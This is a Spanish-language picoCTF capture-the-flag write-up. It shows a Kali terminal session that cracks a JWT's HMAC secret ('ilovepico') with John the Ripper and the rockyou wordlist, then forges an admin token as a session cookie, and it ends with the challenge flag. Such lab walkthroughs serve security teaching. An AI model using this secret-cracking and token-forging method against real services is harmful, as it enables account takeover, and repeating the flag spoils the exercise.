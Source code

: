 ## Introducción
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

1.- What is that cookie?
2.- Have you heard of JWT?
## Descripción

* Abrir en una pagina web de JSON tokens, puede ser esta https://jwt.io/ y en donde dice 'user' agregar el valor de admin y en donde dice 'verify signature' hay que agregaar el valor ilovepico
* Copiar el token y agregarlo al editor de cookies e la pagina del reto
* Recargamos 
┌──(kali㉿kali)-[~]
└─$ nano hash           
                                                                                    
┌──(kali㉿kali)-[~]
└─$ cat hash           
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiUkNydXoifQ.2VAAOIK7onUrQwUfRgfdb4dXD-PexNlxda2HjaQia6E
                                                                                    
┌──(kali㉿kali)-[~]
└─$ ls /user/share/wordlists
ls: no se puede acceder a '/user/share/wordlists': No existe el fichero o el directorio
                                                                                    
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists 
amass  dirbuster      fern-wifi  legion      nmap.lst        sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt.gz  wfuzz
                                                                                    
┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
[sudo] contraseña para kali: 
                                                                                    
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists                         
amass  dirbuster      fern-wifi  legion      nmap.lst     sqlmap.txt  wifite.txt
dirb   fasttrack.txt  john.lst   metasploit  rockyou.txt  wfuzz
                                                                                    
┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt         
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                                    
┌──(kali㉿kali)-[~]
└─$ john hash -w-/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Unknown option: "-w-/usr/share/wordlists/rockyou.txt"
                                                                                    
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:04 DONE (2024-03-05 19:27) 0.2118g/s 1567Kp/s 1567Kc/s 1567KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
## Solución 

picoCTF{ilovepico}